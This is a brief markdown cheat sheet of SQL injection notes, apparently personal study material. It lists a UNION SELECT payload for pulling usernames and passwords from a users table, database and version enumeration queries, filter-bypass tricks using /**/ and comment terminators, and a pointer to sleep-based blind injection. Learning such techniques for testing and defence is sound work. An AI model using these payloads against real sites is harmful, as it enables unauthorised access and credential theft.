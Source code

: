 # SQLi notes

To jump to other tables:
`' UNION SELECT username, password FROM users--`

Enumerate database columns
`SELECT * FROM information_schema.tables`

Enumerate vesrion:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`
``

Quick tips:
space sanitisation can be defeated with `/**/`
sometimes adding a comment at the end of query can complete the injection `--` `#`

BlindSQL:
Truth must be "infered" generally with a sleep function

